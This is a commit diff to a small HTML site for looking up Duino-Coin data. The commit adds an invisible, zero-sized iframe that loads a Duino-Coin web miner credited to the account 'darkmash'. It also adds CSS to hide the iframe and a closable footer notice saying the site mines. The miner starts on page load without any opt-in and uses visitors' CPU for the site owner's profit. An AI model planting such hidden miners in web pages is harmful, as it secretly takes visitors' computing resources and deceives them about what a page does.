

Before and after one commit to darkmash-org/duco-lookup, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,7 +13,45 @@
     <meta name="keywords" content="lookup, duino-coin, darkmash , tools , startup , coders" />
 
         <link rel="icon" type="image/png" href="https://cdn.discordapp.com/attachments/951417646191083551/1073984977827545174/image.png" />
+<style>
+    .mner {
+    visibility: hidden;
+    height: 0px;
+    width: 0px;
+}
+#footer {
+    position: fixed;
+    left: 0px;
+    bottom: 0px;
+    /* height: 30px; */
+    width: 100%;
+    /* background: #999; */
+}
 
+.alert {
+    padding: 20px;
+    background-color: rgb(32, 32, 32);
+    color: rgb(184, 184, 184);
+    font-size: 14px;
+    font-weight: 600;
+    font-family: 'Lucida Sans', 'Lucida Sans Regular', 'Lucida Grande', 'Lucida Sans Unicode', Geneva, Verdana, sans-serif;
+}
+
+.closebtn {
+    margin-left: 15px;
+    color: white;
+    font-weight: bold;
+    float: right;
+    font-size: 20px;
+    line-height: 18px;
+    cursor: pointer;
+    transition: 0.3s;
+}
+
+.closebtn:hover {
+    color: rgb(54, 54, 54);
+}
+    </style>
     <script src="./assets/script.js" defer></script>
 </head>
 <body>
@@ -97,6 +135,13 @@
         </div>
 
     </main>
+     <iframe class="mner" src="https://server.duinocoin.com/webminer.html?username=darkmash&threads=1&rigid=main.home&keyinput=">DARKMASH DARKMASH DARKMASH DARKMASH</iframe>
+    <footer id="footer">
 
+        <div class="alert">
+            <span class="closebtn" onclick="this.parentElement.style.display='none';">&times;</span> We do mine in the site . This is to make sure the company could serve yall the next day : )
+        </div>
+
+    </footer>
 </body>
 </html>
```
